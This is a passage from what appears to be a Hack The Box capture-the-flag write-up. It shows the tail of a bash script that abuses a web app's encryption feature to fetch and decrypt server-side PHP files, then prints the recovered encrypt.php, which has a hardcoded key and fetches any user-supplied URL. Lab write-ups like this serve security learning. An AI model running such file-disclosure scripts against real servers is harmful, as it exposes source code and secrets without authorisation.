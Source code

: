 ```bash
           "http://$HOST/$CIPHER" \
      | sed -r '/<textarea/,/<\/textarea>/!d' \
      | head -1 \
      | cut -d'>' -f2 \
      | cut -d'<' -f1)

# decrypt
python xor.py "$RC4" \
| sed '10!d' \
| cut -d'<' -f1 \
| base64 -d

# clean up
rm -f cookie
```

Armed with this script, I was able to read all the PHP files, including the ones in `/dev`.

```
# ./holycow.sh ../encrypt
```

Here's what `encrypt.php` looks like.

<div class="filename"><span>encrypt.php</span></div>

```php
<?php
//ini_set('display_errors', 1);
//ini_set('display_startup_errors', 1);
//error_reporting(E_ALL);

include "aes.php";
include "rc4.php";
include "url.php";
$key = "s3cr3t_crypto_KEY";
session_start();
$err = "";
if (isset($_SESSION['login'])) {
    $res = "";
    if (isset($_GET["url"])) {
        if (substr($_GET["url"], 0, 7) === "http://") {
            $page = get_contents($_GET["url"]);
            if (strlen($page) === 0) {
                $err = "File not found or it was empty!";
            } else {
                //echo $page;
                $cipher = $_GET['cipher'];
                if ($cipher === 'RC4') {
                    $res = base64_encode(rc4($key, $page));
                } elseif ($cipher === 'AES-CBC') {
                    $res = base64_encode(aes_cbc($key, $page));
                } else {
                    $res = "";
                    $err = "Wrong cipher!";
                }
            }
        } else {
            $err = "Only http scheme is supported at the moment!";
        }
    }
} else {
    header("location: index.php");
    die();
}
?>
```

[1]: https://www.hackthebox.eu/home/machines/profile/183
[2]: https://www.hackthebox.eu/home/users/profile/2571
[3]: https://www.hackthebox.eu/home/users/profile/21927
[4]: https://www.hackthebox.eu/